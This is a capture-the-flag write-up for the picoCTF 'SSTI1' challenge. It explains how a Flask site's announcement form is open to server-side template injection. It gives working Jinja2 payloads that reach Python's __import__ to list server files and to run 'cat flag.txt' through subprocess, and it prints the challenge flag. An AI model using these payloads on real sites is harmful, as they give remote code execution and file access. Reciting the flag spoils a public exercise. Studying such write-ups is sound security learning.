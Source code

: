 # SSTI1
I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website!

> [!NOTE]
> You'll need to launch the challenge instance in PicoGym.
> In this directory, you'll find the same website setup in `app.py`.
>
> To run the application locally, execute the following:
> 1. `pip install --requirement requirements.txt`
> 1. `flask run`
>
> After your app is running locally, you could solve the challenge.


# Solution
This challenge introduces you to server side template rendering, Python built-in functions, and remote code execution on the server.

I began by inspecting the code in the browsers DevTool. Very quickly I realized that this application has a straightforward form,
thus the user provided input field is where I should focus my efforts.

At this time, I did not know anything about [Server Side Template Injections](https://en.wikipedia.org/wiki/Code_injection#Server_Side_Template_Injection), however by putting `{{self}}` in the forms input field and getting `<TemplateReference None>` as the output made me realize that the backend is in `Python`.


Next I learned that in Python, `__globals__` is an attribute of a function that provides a dictionary of all the variables accessible from that functions scope. Considering that I know `self` exists, and each python class has the `__init__` constructor function, I tried `{{self.__init__.__globals__}}`. This resulted in a large list of functions and variables that I could call and access. Very quickly I saw `__import__` in the output.

> The `__import__` function is a python built-in function that provides a mechanism for dynamically importing modules.

I called `listdir()` to get a list of all the files on the server:

```html
</h1><pre>{{self.__init__.__globals__.__builtins__.__import__('os').listdir()}}</pre><h1>
```

```python
['README.md', 'requirements.txt', 'flag.txt', 'app.py']
```

Great, I see that the `flag.txt` file exists. Now I just have to output the contents of that file:

```html
</h1><pre>{{self.__init__.__globals__.__builtins__.__import__('subprocess').run(['cat', 'flag.txt'], capture_output=True, text=True).stdout}}</pre><h1>
```


# Flag

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}`


# Hints

1. Server Side Template Injection